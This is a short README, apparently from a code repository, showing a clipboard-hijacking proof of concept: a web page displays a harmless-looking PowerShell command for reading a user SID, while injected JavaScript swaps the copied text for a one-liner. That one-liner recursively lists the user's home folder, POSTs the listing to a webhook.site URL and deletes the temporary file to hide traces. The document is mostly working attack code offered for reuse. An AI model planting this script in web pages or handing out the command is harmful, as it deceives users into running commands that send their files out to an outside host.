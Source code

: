 # JavaScript-Clipboard-Manipulation
 Art of Deception: Manipulate clipboard when doing copy via JavaScript

## Set id on the part which you want the user to falls to the copy clipboard manipulation
```
<div class="col-sm-5">
    <h2>How to Get User SID in Powershell (COPY ME Value!)</h2>
    <p id='copy'>Get-ItemProperty -path "HKLM:\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\ProfileList\*" | select ProfileImagePath,PSChildName</p>
</div>
```

## Create a Javascript to set a listener on the id & manipulate the clipboard <br>
<b>Note: The Powershell Command will first get the directory lists, then make a POST request to webhook & remove the leftover trace</b>
```
<!-- Copy clipboard Manipulation-->
<script type="text/javascript">
    document.getElementById('copy').addEventListener('copy', function(e) {
        e.clipboardData.setData('text/plain', 'Get-ChildItem -recurse $HOME > tmp; Invoke-WebRequest -Method POST -InFile .\\tmp https://webhook.site/4ab2a160-8f9d-42f8-81e3-6f94f7f62357; rm .\\tmp')
        e.preventDefault()
    })
</script>
```

## Image on how it looks like on the website & the value copied in clipboard 

![alt text](poc\1.png)
![alt text](poc\2.png)


## Template Used: 
https://www.free-css.com/free-css-templates/page274/agency-perfect